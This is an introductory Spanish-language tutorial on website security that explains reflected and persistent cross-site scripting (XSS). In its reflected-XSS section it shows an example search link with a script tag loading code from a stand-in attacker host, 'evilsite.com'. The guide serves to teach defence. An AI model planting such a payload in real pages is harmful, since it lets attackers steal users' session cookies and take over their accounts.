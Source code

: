 El propósito de la seguridad web es prevenir ataques de esta (o de cualquier otra) clase. Mas formalmente, _la seguridad es la acción/práctica de proteger sitios web del acceso, uso, modificación, destrucción o interrupción, no autorizados_.

La seguridad de sitios web eficaz requiere de esfuerzos de diseño a lo largo de la totalidad del sitio web: en tu aplicación web, en la configuración del servidor web, en tus políticas para crear y renovar contraseñas, y en el código del lado cliente. Al mismo tiempo que todo esto suena muy inquietante, la buena noticia es que si estás usando un framework web de lado servidor, es casi seguro que habilitará por defecto mecanismos de defensa robustos y bien pensados contra gran cantidad de los ataques más comunes. Otros ataques pueden mitigarse por medio de la configuración de tu servidor web, por ejemplo habilitando HTTPS. Finalmente, hay herramientas de escaneado de vulnerabilidades disponibles públicamente que pueden ayudarte a averiguar si has cometido algún error obvio.

El resto de este artículo proporciona más detalle sobre unas pocas amenazas comunes y algunos de los pasos simples que puedes dar para proterger tu sitio.

> **Nota:** Este es un tema de introducción, diseñado para ayudarte a pensar sobre la seguridad de sitios web. No pretende ser exhaustivo.

## Amenazas contra la seguridad de sitios web

Esta sección lista sólo algunas pocas de las amenazas más comunes para los sitios web y cómo son mitigadas. A medida que vayas leyendo, fíjate cómo las amenazas tienen éxito cuando la aplicación web, ¡o confía o _no es lo suficientemente paranoica_ acerca de los datos que vienen del explorador web!

### Cross-Site Scripting (XSS)

XSS es un término que se usa para describir una clase de ataques que permiten al atacante inyectar scripts de lado cliente, _a través_ del sitio web, hasta los exploradores de otros usuarios. Como el código inyectado va del servidor del sitio al explorador, se supone de confianza, y de aquí que pueda hacer cosas como enviar al atacante la cookie de autorización al sitio del usuario. Una vez que el atacante tiene la cookie pueden iniciar sesión en el sitio como si fuera el verdadero usuario y hacer cualquier cosa que pueda hacer éste. Dependiendo de que sitio sea, esto podría incluir acceso a los detalles de su tarjeta de crédito, ver detalles de contactos o cambiar contraseñas, etc.

> **Nota:** Las vulnerabilidades XSS han sido históricamente más comunes que las de cualquier otro tipo.

Hay dos aproximaciones principales para conseguir que el sitio devuelva scripts inyectados al explorador — se conocen como vulnerabilidades XSS _reflejadas_ y _persistentes_.

- Una vulnerabilidad XSS _reflejada_ ocurre cuando contenido del usuario que se pasa al servidor se devuelve _inmediatamente y sin modificar_ par que los muestre el explorador — ¡cualquier script en el contenido original del usuario se ejecutará cuando se cargue una nueva página!
  Por ejemplo, considera una función de búsqueda en un sitio donde los términos de búsqueda están codificados como parámetros URL y estos términos se presentan junto con los resultados. Un atacante puede construir un enlace de búsqueda que contenga un script malicioso como parámetro (ej. `http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>`) y enviarlo como enlace en un correo electrónico a otro usuario: Si el destinatario pincha en este "enlace interesante", el script se ejecutará cuando se muestren en pantalla los resultados de la búsqueda. Como discutimos arriba, ésto da al atacante toda la información que necesita para entrar en el sitio como si fuera el usuario destinatario — realizando compras potencialmente como si fuera el usuario o compartiendo su información de contactos.
- Una vulnerabilidad _XSS persistente_ es aquella en la que el script malicioso se _almacena_ en el sitio web y luego más tarde se vuelve a presentar en pantalla sin modificar para que otros usuarios lo ejecuten involuntariamente. Por ejemplo, un foro de discusión que accepta comentarios que contengan HTML sin modificar, podría almacenar un script malicioso de un atacante. Cuando se muestren los comentarios se ejecutará el script y enviará al atacante la información requerida para acceder a la cuenta del usuario. Esta clase de ataque es extremadamente popular y muy potente, porque el atacante no tiene que tener ninguna relación directa con las víctimas.
